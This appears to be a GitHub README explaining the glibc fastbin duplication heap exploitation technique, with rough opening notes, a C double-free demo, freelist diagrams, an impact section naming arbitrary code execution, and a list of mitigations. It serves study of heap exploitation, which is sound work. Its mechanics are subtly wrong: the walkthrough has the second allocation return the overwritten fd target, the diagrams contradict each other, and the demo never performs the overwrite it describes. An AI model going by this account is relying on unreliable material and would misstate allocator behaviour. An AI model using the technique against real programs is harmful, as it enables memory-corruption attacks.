




# Overall
Malloc chunk1 &rarr; chunk2; after that free chunk1 &rarr; chunk2 &rarr; chunk1.



The dup in fastbins.



The fastbin mechanism in the glibc memory allocator (ptmalloc) behaves like a FILO (First-In, Last-Out) stack.



As the above-mentioned images, I firstly malloc the same size as the two previous chunk(40 ~ 0x31), it will take the chunk1 and write to this.
Next, I do the same for chunk2, the result is:



If I malloc twice with the same size, I can allocate the chunk at the pointer I give it.


# Fastbin Duplication Attack

This documentation explains the **Fastbin Duplication Attack** mechanism and provides a clear walkthrough of how to exploit glibc's fastbin freelist to allocate memory at arbitrary addresses.

---

## **Overview**

The **fastbin** mechanism in the glibc memory allocator (ptmalloc) behaves like a **FILO** (First-In, Last-Out) stack. Exploiting this behavior allows us to manipulate the allocator's freelist and direct subsequent memory allocations to arbitrary locations. This is known as the **Fastbin Duplication Attack**.

---

## **Mechanism**

### **1. Fastbin Basics**
- **Fastbins** are used for managing freed chunks of small sizes (e.g., ~0x30 bytes).
- Freed chunks are stored in a FILO stack, enabling quick reuse.
- The allocator relies on the `fd` pointer (forward pointer) in the chunk metadata to track the freelist.

### **2. Exploitation Process**
#### Step-by-Step:
1. **Initial Allocations**:
   - Allocate two chunks of the same size: `chunk1` and `chunk2`.

2. **Freeing Chunks**:
   - Free `chunk1`, then `chunk2`, and then `chunk1` again (creating a duplicate entry in the fastbin freelist).
   - The freelist now looks like:
     ```
     [chunk1 → chunk2 → chunk1]
     ```

3. **Metadata Modification**:
   - Overwrite `chunk1->fd` to point to an arbitrary memory address (e.g., a controlled or sensitive location).

4. **Subsequent Allocations**:
   - Allocate the same size as the previous chunks.
   - The first allocation returns `chunk1`.
   - The second allocation returns the address stored in `chunk1->fd` (arbitrary location).

---

## **Code Walkthrough**

Here is a minimal example to demonstrate the attack:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    // Step 1: Allocate two chunks of the same size
    void *chunk1 = malloc(0x30);
    void *chunk2 = malloc(0x30);

    // Step 2: Free the chunks in the desired order
    free(chunk1);
    free(chunk2);
    free(chunk1); // Duplicate entry in fastbin freelist

    // At this point, the freelist is: [chunk1 → chunk2 → chunk1]

    // Step 3: Overwrite chunk1->fd (simulated here)
    // Use appropriate techniques (e.g., a vulnerability) to overwrite `fd`.

    // Step 4: Allocate chunks to observe the results
    void *new_chunk1 = malloc(0x30); // Reuses chunk1
    void *new_chunk2 = malloc(0x30); // Points to chunk1->fd

    printf("chunk1: %p\n", chunk1);
    printf("chunk2: %p\n", chunk2);
    printf("new_chunk1: %p\n", new_chunk1);
    printf("new_chunk2: %p\n", new_chunk2);

    return 0;
}
```

---

## **Visualization**

### Initial State:

```plaintext
Allocations:
chunk1 -> chunk2

Freelist after free operations:
[chunk1 → chunk2 → chunk1]
```

### After Overwriting:

```plaintext
chunk1->fd = arbitrary_address
Freelist:
[chunk1 → chunk2 → arbitrary_address]
```

### Allocations:
```plaintext
malloc(0x30) -> Returns chunk1
malloc(0x30) -> Returns arbitrary_address
```

---

## **Impact**

Using the Fastbin Duplication Attack, you can:
- Redirect memory allocations to arbitrary locations.
- Overwrite critical data structures in memory.
- Achieve arbitrary code execution or other malicious goals.

---

## **Mitigations**

Modern glibc versions include the following protections:
1. **Pointer Encoding**:
   - Encodes `fd` pointers to make them harder to manipulate.

2. **Tcache Implementation**:
   - Introduces an additional caching mechanism to replace fastbins for small allocations, mitigating duplication attacks.

3. **Double-Free Detection**:
   - Detects and prevents multiple frees of the same chunk.

---

## **Conclusion**

The Fastbin Duplication Attack leverages the FILO nature of fastbins to manipulate the allocator's freelist, allowing control over memory allocation. This technique highlights the importance of robust mitigations in modern memory allocators to protect against exploitation.

